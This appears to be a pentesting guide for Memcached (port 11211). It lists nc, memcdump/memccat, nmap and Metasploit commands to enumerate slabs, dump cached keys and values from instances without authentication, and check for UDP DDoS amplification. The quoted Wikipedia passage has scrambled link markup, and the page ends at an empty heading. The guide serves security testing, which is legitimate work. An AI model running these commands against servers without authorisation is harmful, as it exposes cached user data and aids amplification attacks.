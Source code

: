 # 11211 - Pentesting Memcache


## Protocol Information

From [[https://en.wikipedia.org/wiki/Memcached|wikipedia]]:

> **Memcached** (pronunciation: mem-cashed, mem-cash-dee) is a general-purpose distributed [[https://en.wikipedia.org/wiki/Memory_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API|memory caching]] must be read.

Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```
PORT      STATE SERVICE
11211/tcp open  unknown
```
```
## Enumeration

### Manual

To exfiltrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn -w 1 <IP> 11211      #Get version
echo "stats" | nc -vn -w 1 <IP> 11211        #Get status
echo "stats slabs" | nc -vn -w 1 <IP> 11211  #Get slabs
echo "stats items" | nc -vn -w 1 <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn -w 1 <IP> 11211  #Get key names (the 0 is for unlimited output size)
echo "get <item_name>" | nc -vn -w 1 <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```
```
### Manual2

```bash
sudo apt install libmemcached-tools
memcstat --servers=127.0.0.1 #Get stats
memcdump --servers=127.0.0.1 #Get all items
memccat  --servers=127.0.0.1 <item1> <item2> <item3> #Get info inside the item(s)
```
```
### Automatic

```bash
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible
```
```
## **Dumping Memcache Keys**
```